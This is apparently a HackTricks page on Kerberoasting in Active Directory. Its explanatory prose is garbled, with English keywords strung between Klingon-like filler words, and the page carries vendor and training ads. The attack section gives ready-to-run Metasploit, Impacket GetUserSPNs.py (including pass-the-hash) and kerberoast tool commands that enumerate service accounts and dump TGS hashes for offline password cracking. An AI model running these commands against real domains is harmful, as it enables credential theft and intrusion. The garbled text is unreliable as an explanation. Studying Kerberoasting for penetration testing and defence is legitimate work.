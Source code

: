 # Kerberoast

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) **ghItlh** **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Kerberoast

Kerberoast **QaD** **TGS tickets** **ghItlh** **user accounts** **Active Directory (AD)**, **computer accounts** **Daq**. **TGS tickets** **encryption** **user passwords** **offline credential cracking** **QaD**. **user account** **service** **"ServicePrincipalName"** **property** **Daq**.

**Kerberoasting** **QaD** **TGS tickets** **user-account services** **AD** **Daq**. **user passwords** **encryption** **cracked offline** **QaD**. **ServicePrincipalName** **non-empty** **Daq**. **special privileges** **needed**, **valid domain credentials** **Daq**.

### Key Points:
- **Kerberoasting** **QaD** **TGS tickets** **user-account services** **AD**.
- **user passwords** **encryption** **cracked offline** **Daq**.
- **ServicePrincipalName** **non-empty** **Daq**.
- **special privileges** **needed**, **valid domain credentials** **Daq**.

### **Attack**

{% hint style="warning" %}
**Kerberoasting tools** **RC4 encryption** **attack** **TGS-REQ requests** **Daq**. **RC4** [**weaker**](https://www.stigviewer.com/stig/windows\_10/2017-04-28/finding/V-63795) **cracked offline** **Hashcat** **AES-128** **AES-256** **Daq**.\
**RC4 (type 23)** **hashes** **start** **`$krb5tgs$23$*`** **AES-256(type 18)** **start** **`$krb5tgs$18$*`**`.`
{% endhint %}

#### **Linux**
```bash
# Metasploit framework
msf> use auxiliary/gather/get_user_spns
# Impacket
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
# kerberoast: https://github.com/skelsec/kerberoast
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable # 1. Enumerate kerberoastable users
kerberoast spnroast 'kerberos+password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes # 2. Dump hashes
```